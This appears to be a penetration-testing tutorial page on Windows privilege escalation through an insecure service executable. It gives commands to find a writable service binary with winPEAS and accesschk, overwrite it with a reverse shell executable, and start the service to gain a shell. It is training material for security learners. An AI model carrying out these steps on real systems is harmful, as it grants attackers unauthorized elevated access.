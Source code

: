 # Insecure Service Executables

If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system!

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (86).png>)

Note that the “filepermsvc” service has an executable which appears to be writable by everyone. We can confirm this with accesschk.exe:

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](<../../../../.gitbook/assets/image (91) (1).png>)

Create a backup of the original service executable:

```
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

Copy the reverse shell executable to overwrite the service executable:

```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](<../../../../.gitbook/assets/image (96) (1).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start filepermsvc
```

![](<../../../../.gitbook/assets/image (83) (1).png>)
